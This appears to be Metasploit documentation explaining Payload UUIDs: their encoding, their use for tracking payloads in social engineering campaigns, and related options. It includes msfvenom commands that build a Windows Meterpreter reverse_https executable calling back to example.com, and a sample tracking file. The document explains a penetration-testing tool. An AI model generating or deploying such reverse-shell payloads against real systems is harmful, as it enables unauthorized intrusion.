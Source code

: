 In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```


Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json 
{
  "09e642e7c0fc235a": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435276808,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"example.com","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/CeZC58D8I1qT_JL9xnAF9A7AvWT8e_QNB3MWqY8nvNRN82crZWqoXKr25Ej7XR87IbnnwUwC2bwG9LIIh1tVUTMf1fwag0F7m6mk0iv-u4M9h40elV0aPD7d3genb1ofVEwKV-L2SXG-DYXJnkiH7gPeA_rCTHHfAn-Ayl2ETblQp5lVH-12tZjVIFGWVfFEDMWYnAKBzKmb4jMcrdTQP2u_fM"
]
}
}
```

